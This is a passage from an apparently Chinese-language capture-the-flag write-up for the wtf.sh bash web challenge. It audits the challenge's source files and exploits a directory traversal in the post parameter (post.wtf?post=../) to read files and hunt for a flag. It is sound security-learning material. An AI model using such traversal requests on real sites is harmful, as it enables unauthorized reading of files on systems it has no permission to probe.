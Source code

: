 ```bash
    fi
    done < ${pathname}
    else
    echo "<p>Max include depth exceeded!<p>"
    fi
    }
3.  其它文件
	cp -R css index.wtf lib.sh login.wtf logout.wtf new_post.wtf new_user.wtf post.wtf post_functions.sh posts profile.wtf reply.wtf spinup.sh user_functions.sh users users_lookup wtf.sh "${sandbox_dir}";
```

根据上面的东西，先把其它源码给下下来审计。

```bash
1.lib.sh
	一些依赖函数
2.spinup.sh
	一些目录初始化的命令
3.user_functions.sh
	关于用户的一些操作，比如创建用户 登录等
4.post_functions.sh
	这里面有两个函数，一个是create_post,另一个是reply,根据函数名就可以猜得出功能
```

根据post_functions.sh里create_post的

```bash
local post_id=$(basename $(mktemp --directory posts/XXXXX));

echo ${username} > "posts/${post_id}/1";
echo ${title} >> "posts/${post_id}/1";
echo ${text} >> "posts/${post_id}/1";
```

可以知道，post_id是一个在posts下面的一个目录，并且会将内容写入该目录下的1文件里，而且没有做任何目录限制，那么就可以目录穿越，同时根据/post.wtf?post=K8laH是获取论坛主题内容，就可以知道会造成任意目录下的文件读取。

所以提交

```
http://111.198.29.45:44741/post.wtf?post=../
```

读取上一层的文件

![](https://wulasite.top/mdimage/adword/wtf2.png)

内容过多，搜索一下flag关键字

![](https://wulasite.top/mdimage/adword/get_flag1.png)

```bash
$ if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]] 
$ then $ get_flag1 $ fi $ fi 
```

